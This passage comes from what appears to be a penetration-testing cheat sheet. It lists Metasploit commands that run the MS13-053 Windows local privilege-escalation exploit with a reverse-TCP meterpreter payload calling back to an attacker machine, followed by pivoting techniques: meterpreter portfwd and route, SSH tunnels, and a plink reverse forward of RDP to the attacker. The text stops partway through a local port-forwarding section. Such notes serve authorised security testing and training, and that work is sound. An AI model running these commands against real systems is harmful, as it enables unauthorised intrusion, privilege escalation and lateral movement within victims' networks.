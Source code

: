     msf exploit > set exploit/windows/local/ms13_053_schlamperei
    msf exploit(ms13_053_schlamperei) > options
    msf exploit(ms13_053_schlamperei) > set SESSION 1   # this is the previously established low priv meterpreter session id
    msf exploit(ms13_053_schlamperei) > set payload windows/x64/meterpreter_reverse_tcp
    msf exploit(ms13_053_schlamperei) > SET LHOST 192.168.0.99   # kali box
    msf exploit(ms13_053_schlamperei) > run

Tip: When looking for local windows exploits, those prefixed with MS are often very reliable, due to them being kernel related vunerabilties.

Tip 2: `searchsploit` is awesome


# Pivoting

Useful for using a middle box, which can then in turn be used to leap frog to other parts of the network.

    [Attacker]  -->   [User Destop]    -->    [   DC   ]



## Metasploit

### portfwd

On an active meterpreter session, you have the awesome `portfwd` command. Hit help for more `portfwd help`.

### route

In meterpreter, you can setup an internal route table, via a specific meterpreter session, e.g:

    route 192.168.1.1 255.255.255.0 1


# SSH Tunnels

* Remote, Local and Dynamic port forwarding enables lateral movement. The decision between remote and local, comes down to where you need the port.
  * Remote - listen on the server - traffic from initiator perspective
  * Local - listen on the initiator - traffic from server perspective
* `plink` is a great binary for doing SSH'ing client on windows

A rmeote port forwarding example. To use `plink` and setup a tunnel on the middle (user desktop) box, you could run the following:

    ssh <ssh server> -R [SSH server IP to Bind To]:[SSH Server Port to Bind To]:[Target Destination]:[Target Port]

    plink.exe attacker@red -R 127.0.0.1:4444:blue:3389


A local port forwarding example;
